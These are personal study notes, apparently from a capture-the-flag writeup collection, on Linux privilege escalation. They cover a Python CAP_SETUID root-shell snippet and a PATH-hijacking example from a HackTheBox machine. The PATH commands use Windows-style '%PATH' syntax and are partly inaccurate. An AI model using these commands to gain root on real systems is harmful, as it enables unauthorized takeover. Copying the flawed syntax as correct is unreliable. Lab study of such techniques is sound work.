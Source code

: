 # General Concepts

**Note:** I made this cuz there are some concepts that I'm not very sure of categorizing, so yeah.

## CAP_SETUID bit

If this bit is on in a _python_ binary, refer to [**GTFOBins**](https://gtfobins.github.io/gtfobins/python/#capabilities) for further details.

But basically, if you see this bit set on _python_, use the following script:

```
import os
os.setuid(0)
os.system("/bin/bash")
```

Should be pretty self-explanatory.

## Abusing misconfigured PATH variable

```
PATH=/tmp:%PATH
```

That's the basic concept of how to abuse it. I don't fully understand the logic, but essentially, if a file (preferably with privileged access) does not have an absolute file path, you can make a temporary file (hence, **/tmp** being used in the file path since I usually do it there) that gives you a shell, set execute permissions for it, then reference that **PATH** before the file that actually has the escalated privileges, then it'll execute this temporary file and give you a shell.

Here's an example, based on [**Photobomb**](../../HTB/Photobomb/Writeup.md):

```
1. cd /tmp
2. echo "/bin/bash" > [
3. chmod +x [
4. sudo PATH=/tmp:%PATH /opt/cleanup.sh
```

Where:
```cleanup.sh``` = file with sudo perms
```[``` = binary that can be manipulated (supposedly, in the machine, other bins were vulnerable too apparently)
